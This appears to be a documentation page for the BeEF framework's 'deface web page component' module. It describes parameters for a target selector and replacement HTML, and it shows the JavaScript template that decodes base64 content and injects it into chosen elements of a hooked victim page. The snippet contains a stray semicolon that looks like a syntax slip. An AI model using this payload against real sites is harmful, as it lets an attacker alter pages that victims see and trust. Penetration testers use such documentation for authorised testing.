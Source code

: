 ## Summary

* **Objective**: Replace content of a specific component of the page
* **Authors**: antisnatchor, xntrik
* **Browsers**: All
* **Parameters**: 
	* **Target Selector**: selector for the target element(s), in jQuery's selector notation.
	* **Deface Content**: the HTML content to replace original content with

* [Code](https://github.com/beefproject/beef/tree/master/modules/hooked_domain/deface_web_page_component)

## Internal Working

replaces a selected component of the web page to the defaced content.

```js

var result = $j('<%= @deface_selector %>').each(function() {
                $j(this).html(decodeURIComponent(beef.encode.base64.decode('<%= Base64.strict_encode64(@deface_content) %>')););
        }).length;
```

## Feedback
